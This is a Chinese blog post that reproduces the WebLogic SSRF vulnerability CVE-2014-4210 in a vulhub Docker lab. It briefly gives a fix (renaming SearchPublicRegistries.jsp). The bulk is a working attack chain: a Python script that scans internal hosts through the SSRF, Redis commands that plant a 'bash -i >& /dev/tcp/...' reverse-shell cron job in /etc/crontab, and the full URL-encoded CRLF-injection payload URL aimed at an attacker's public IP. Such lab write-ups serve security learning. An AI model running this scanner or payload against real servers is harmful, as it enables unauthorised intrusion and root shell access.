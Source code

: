 ```yaml
---
title: CVE-2014-4210
date: 2021-08-19 00:00:58
updated: 2021-08-19 00:00:58
categories: 漏洞复现
password: npfs2333
---
```




weblogic-SSRF(CVE-2014-4210)漏洞复现<!--more-->
# weblogic简介
WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。

# 漏洞概述
服务端请求伪造(Server-Side Request Forgery),是一种有攻击者构造形成有服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能,且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容,加载指定地址的图片、文档等等。

## SSRF用途：
1.内外网的端口和服务扫描。2.主机本地敏感数据的读取。3.内外网主机应用程序漏洞的利用。4.内外网web站点漏洞的利用

## 影响版本：
weblogic 10.0.2 – 10.3.6.0

## 漏洞出现位置与解决方法：
Weblogic服务端请求伪造漏洞出现在uddi组件（所以安装Weblogic时如果没有选择uddi组件那么就不会有该漏洞），

更准确地说是uudi包实现包uddiexplorer.war下的SearchPublicRegistries.jsp。

所以修复的直接方法是将SearchPublicRegistries.jsp直接删除就好了

我们这里采用的是改后辍的方式，修复步骤如下：
```
1.将weblogic安装目录下的wlserver_10.3/server/lib/uddiexplorer.war做好备份
2.将weblogic安装目录下的server/lib/uddiexplorer.war下载
3.用winrar等工具打开uddiexplorer.war
4.将其下的SearchPublicRegistries.jsp重命名为SearchPublicRegistries.jspx
5.保存后上传回服务端替换原先的uddiexplorer.war
对于多台主机组成的集群，针对每台主机都要做这样的操作
由于每个server的tmp目录下都有缓存所以修改后要彻底重启weblogic（即停应用–停server–停控制台–启控制台–启server–启应用）
```
# 环境搭建

项目地址： https://github.com/vulhub/vulhub
通过vulnhub/weblogic下载漏洞docker漏洞环境

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

编译及启动测试环境
```
docker-compose up -d
```
默认会指定端口为7001以及6379

6379端口为Redis默认开启的端口

环境开启后，直接访问http://your-ip:7001 即可看到默认的404页面：
![图片描述](https://static.cdnjs.cloud/20210801/image-1627793416025_560764850111.png)

# SSRF漏洞测试
SSRF漏洞存在于

http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp
![图片描述](https://static.cdnjs.cloud/20210801/image-1627793479298_935238078805.png)

点击search，抓包，我们在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如http://your-ip:7001

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回did not have a valid SOAP content-type。
![图片描述](https://static.cdnjs.cloud/20210801/image-1627793745492_592035677251.png)

看下对应页面，这里GET传参和POST传参是一样的

<img src="http://img.npfs06.top/20210801130408.png" style="zoom:80%;" />

修改为一个不存在的端口，比如:http://your-ip:7011 ，将会返回could not connect over HTTP to server。

通过错误的不同，即可探测内网状态。

# 注入HTTP头，利用Redis反弹shell
Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入%0a%0d来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*）

docker inspect 容器ID 命令查看并确认 redis 服务的容器IP地址，通过一个python脚本对网段进行检测：
```python
import thread
import time
import re
import requests

def ite_ip(ip):
    for i in range(1, 256):
        final_ip = '{ip}.{i}'.format(ip=ip, i=i)
        print final_ip
        thread.start_new_thread(scan, (final_ip,))
        time.sleep(3)

def scan(final_ip):
    ports = ('21', '22', '23', '53', '80', '135', '139', '443', '445', '1080', '1433', '1521', '3306', '3389', '4899', '8080', '7001', '8000','6389','6379')
    for port in ports:
        vul_url = 'http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp?operator=http://%s:%s&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search' % (final_ip,port)
        try:
            #print vul_url
            r = requests.get(vul_url, timeout=15, verify=False)
            result1 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException',r.content)
            result2 = re.findall('but could not connect', r.content)
            result3 = re.findall('No route to host', r.content)  
            if len(result1) != 0 and len(result2) == 0 and len(result3) == 0:
                print '[!]'+final_ip + ':' + port
        except Exception, e:
            pass


if __name__ == '__main__':
    ip = "172.21.0"  
    if ip:
        print ip
        ite_ip(ip)
    else:
        print "no ip"
```
![图片描述](https://static.cdnjs.cloud/20210801/image-1627797190155_480261827094.png)

也就是说明内网的一个ip存在6379端口，即redis服务。

我们这里要发送几行代码

发送三条redis命令，将弹shell脚本写入/etc/crontab：

```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.20.0.1/5003 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

把这三条命令通过get包注入进去，先要将命令用url进行编码

注意，换行符是”\r\n”，也就是”%0D%0A”。

![图片描述](https://static.cdnjs.cloud/20210801/image-1627797390134_683301758355.png)
```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.21.0.1%2F5003%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

# Getshell
将url编码后的字符串放在ssrf的域名后面，发送：
```
http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.21.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx[你的公网IP]%2F23180%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
crontab%0D%0Asave%0D%0A%0D%0Aaaa
```
![图片描述](https://static.cdnjs.cloud/20210801/image-1627798088230_124570421833.png)

![图片描述](https://static.cdnjs.cloud/20210801/image-1627797999961_169369333391.png)


# 收尾
复现结束后，关闭容器
```
docker-compost down
```
<img src="http://img.npfs06.top/20210801141006.png" style="zoom:80%;" />



参考：https://as1def.github.io/2020/10/10/weblogic-SSRF-CVE-2014-4210/